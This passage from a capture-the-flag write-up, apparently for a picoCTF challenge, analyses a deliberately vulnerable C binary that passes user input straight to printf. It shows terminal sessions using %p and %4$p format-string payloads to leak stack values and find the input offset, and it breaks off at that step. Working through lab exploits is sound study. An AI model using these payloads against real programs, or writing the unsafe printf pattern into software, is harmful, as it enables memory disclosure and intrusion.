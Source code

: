 ```

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```


Reading it doesn't show any form of buffer overflow 

But there's a vulnerability which is this 

```
   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
 ```
 
We see that it stores the user input in the story buffer then prints it out without using a format specifier

This means that we're working with a binary with format string vulnerability

Cool! WIth this we can leak stuff off the stack of the binary

Reading the code shows that the flag is stored on the stack but it isn't called in the main function but we can possibly leak it

So basically to leak stuff off the stack can be done using various format specifier like %p, %d, %x 

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/flakleak]
└─$ ./vuln 
Tell me a story and then I'll tell you one >> AAAA%p%p%p%p%p%p%p%p%p%p
Here's a story - 
AAAA0xff8cf560(nil)0x80493460x414141410x702570250x702570250x702570250x702570250x702570250xf7f43400
```

Then the address we get we can then try to convert to string and we notice that our input is leaked also i.e AAAA is 0x414141 in hex

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/flakleak]
└─$ echo 0x41414141 | xxd -r 
AAAA
```

That means our input has an offset of 4 in the stack. So instead of doing AAAA%p%p%p we can just specify the offset to leak

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/flakleak]
└─$ ./vuln
Tell me a story and then I'll tell you one >> AAAA%4$p
Here's a story - 
AAAA0x41414141
```
